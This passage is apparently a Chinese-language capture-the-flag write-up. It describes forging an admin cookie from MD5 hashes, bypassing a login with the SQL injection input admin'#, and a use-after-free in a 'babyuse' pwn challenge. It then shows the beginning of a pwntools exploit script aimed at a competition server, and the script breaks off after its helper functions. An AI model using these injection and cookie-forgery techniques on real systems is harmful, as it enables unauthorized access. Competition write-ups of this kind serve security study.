 登录忘记密码功能，用户名输入admin，查看源码有个md5

解密之后是admin的密码，在admin的cookie中发现md5解开是user

修改cookie中数据为admin的md5后访问页面，返回包中有个特殊字符串

在github上搜索得到一个用户名为该字符串的用户

在其GitHub上发现一个apk，反编译后有一段AES/ECB/PKCS5Padding的数据

解密后得到flag


## babysqli - 156

首先是一个登录界面，随手admin'#就能进，进去后题目说有四条信息可以购买，abcd试了一下，发现d就出了flag.

# PWN

## babyuse
use功能里面存在UAF漏洞，触发方式为先申请4把枪，并调用select输入一个合法的枪支编号，接着把申请的4把枪释放掉，这个时候再去调用use就可以触发漏洞，完整利用脚本如下：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 0
debug = 0
local = 0

if local:
    p = process('./babyuse')
    libc = ELF('/lib32/libc.so.6')
else:
    p = remote('202.112.51.247',  3456)
    #libc = ELF('./libc.so')
    p.recvuntil('Token:')
    p.sendline('BwmDoZoJ9QjSFF65dgYP5eoNjGvoYl7K')

if slog: context.log_level = 'DEBUG'


def buy(gun_type, length, name):
    p.recvuntil('7. Exit')
    p.sendline('1')
    p.recvuntil('2. QBZ95')
    p.sendline(str(gun_type))
    p.recvuntil('Lenth of name：')
    p.sendline(str(length))
    p.recvuntil('Input name:')
    p.sendline(name)

def drop(index):
    p.recvuntil('7. Exit')
    p.sendline('6')
    p.recvuntil('Choose a gun to delete:')
    p.sendline(str(index))

def select(index):
    p.recvuntil('7. Exit')
    p.sendline('2')
    p.recvuntil('Select a gun')
    p.sendline(str(index))
```